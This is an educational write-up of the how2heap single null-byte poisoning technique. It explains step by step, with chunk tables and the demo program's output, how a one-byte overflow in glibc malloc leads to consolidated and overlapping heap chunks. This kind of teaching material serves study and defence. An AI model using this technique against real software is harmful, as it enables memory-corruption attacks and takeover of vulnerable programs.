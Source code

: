 # Shellphish how2heap single_null_byte_poisoning

This is another section from the CTF team Shellphish's educational series on how to do heap exploitation. 

This section essentially covers how to get heap consolidation, with a single null byte overflow. The goal is to get the heap to consolidate past an allocated chunk, then allocate a chunk that overlaps with the "forgotten" chunk.

## Process

First we will allocate three chunks of memory for us to work with:
```
0:	0x100	0x565541f1f010
1:	0x200	0x565541f1f120
2:	0x100	0x565541f1f330
```

Proceeding that we will free chunk `1`. This will free up some space in between chunks `0` & `1` for us to work with:
```
0:	0x100	0x565541f1f010
1:	0x200 (freed)
2:	0x100	0x565541f1f330
```

Next is the overflow. We will overflow a single null byte from chunk `0` into the size value for chunk `1`stored at `0x565541f1f008` (this will help us set up to allocate space in that region). Right now the size value stored in the old chunk `1` is `0x211` (`0x200` bytes for the size, `0x10` bytes for the heap metadata, and `0x1` byte for the previous chunk in use bit). Our overflow of the byte `0x00` will change that to `0x200`, since we will be overwriting `0x11` with `0x00`.  Now a new check that was introduced into recent versions of `malloc` that we have to lookout for is `Chunksize(P) == prev_size(next chunk(P))`. For that `Chunksize(P)` is the size value for chunk `1` *(the chunk we just overflowed). For `prev_size(next chunk(P))`, that is the previous size value for chunk `2` stored at `0x565541f1f320`. To deal with this, we just write the value to `0x200` to it (would probably have to use another bug to do so):
```
0:	0x100	0x565541f1f010 (overflowed chunk 1)
1:	0x200 (freed, size overflowed to 0x200 using null byte overflow from 0)
2:	0x100	0x565541f1f330
```

Now that we have editied the metadata properly for chunk `3` (and chunk `2` to pass the new check in malloc) we can allocate where chunk `1` used to be:

```
0:	0x100	0x565541f1f010
3:	0x100	0x565541f1f120
	(free space) 0x90 (chunk 3 takes up 0x110 space because of heap metadata)
2:	0x100	0x565541f1f330
```

Proceeding that, we will allocate another chunk within the remainning space of the old chunk `1`, inbetween chunks `3` & `2`

```
0:	0x100	0x565541f1f010
3:	0x100	0x565541f1f120
4:	0x80  	0x565541f1f230 (fills up entire 0x90 byte chunk mecause of 0x10 bytes of heap metadata)
2:	0x100	0x565541f1f330
```

Now we will free chunks `3` and `2`. This will cause the heap to consolidate where chunk `0` is, and effectively forget about chunk `4`:

```
0:	0x100	0x565541f1f010
3:	0x100	0x565541f1f120 (freed)
4:	0x80  	0x565541f1f230 (chunk has been forgotten about, since heap consolidated to chunk 0)
2:	0x100	0x565541f1f330 (freed)
```

Next we can just allocate a chunk of memory of size `0x300`. This will go where chunk `3` used to be (at the same exact address). However due to the fact of it's size (and that chunk `4` has been forgotten about) it will overlap with chunk `4`. This will allow us to edit chunk `4` just by editing chunk `3` (which can allow us to edit that chunk in ways we shouldn't be able to, and further exploit the program):

```
0:	0x100	0x565541f1f010
5:	0x300	0x565541f1f120 (overlaps with chunk 4 after 0x110 bytes)
4:	0x80  	0x565541f1f230 (is overlapped by chunk 5)
```
With that, we have chunk `5` which directly overlaps chunk `4`.

## Code Running

Below you can see the code running:
```
$	./single_null_byte 
Welcome to poison null byte 2.0!
Tested in Ubuntu 14.04 64bit.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.
We allocate 0x100 bytes for 'a'.
a: 0x565541f1f010
Since we want to overflow 'a', we need to know the 'real' size of 'a' (it may be more than 0x100 because of rounding): 0x108
b: 0x565541f1f120
c: 0x565541f1f330
In newer versions of glibc we will need to have our updated size inside b itself to pass the check 'chunksize(P) != prev_size (next_chunk(P))'
b.size: 0x211
b.size is: (0x200 + 0x10) | prev_in_use
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x200
c.prev_size is 0x210
We will pass the check since chunksize(P) == 0x200 == 0x200 == prev_size (next_chunk(P))
b1: 0x565541f1f120
Now we malloc 'b1'. It will be placed where 'b' was. At this point c.prev_size should have been updated, but it was not: 210
Interestingly, the updated value of c.prev_size has been written 0x10 bytes before c.prev_size: f0
We malloc 'b2', our 'victim' chunk.
b2: 0x565541f1f230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2'.
d: 0x565541f1f120
Now 'd' and 'b2' overlap.
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
Thanks to http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf for the clear explanation of this technique.
```
